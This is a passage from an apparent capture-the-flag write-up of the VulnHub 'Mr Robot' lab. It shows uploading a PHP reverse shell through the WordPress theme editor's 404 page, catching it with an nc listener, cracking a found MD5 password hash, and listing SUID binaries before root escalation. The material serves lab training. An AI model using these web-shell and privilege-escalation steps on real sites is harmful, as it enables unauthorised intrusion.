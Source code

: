 And we have a valid login.

After logging in, to get a shell do the following.

1. Go to `wordpress` editor
2. Upload our `php` reverse shell in any page. (I used the 404 error page)
3. Start a `nc` listener.
4. Open the `404` page in browser.

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/mrrobot/login.gif){: .align-center}

## Shell Upgrade
Found some interesting files while looking around.
```bash
$ ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
robot@linux:~$ cat key*
cat key*
822c73956184f694993bede3eb39f959
$ cat passw*
robot:c3fcd3d76192e4007dfb496cca67e13b
```

Looks like an `MD5` hash. Try cracking it using [Crackstation.](https://crackstation.net/)

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/mrrobot/crack.png){: .align-center}

Change user to `robot` using these credentials and we can read the second flag.

```bash
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ id
id
uid=1002(robot) gid=1002(robot) groups=1002(robot)

```

## Root Shell

Find files with `suid` permissions.

```bash
robot@linux:~$ find / -perm /4000 2>/dev/null
find / -perm /4000 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
```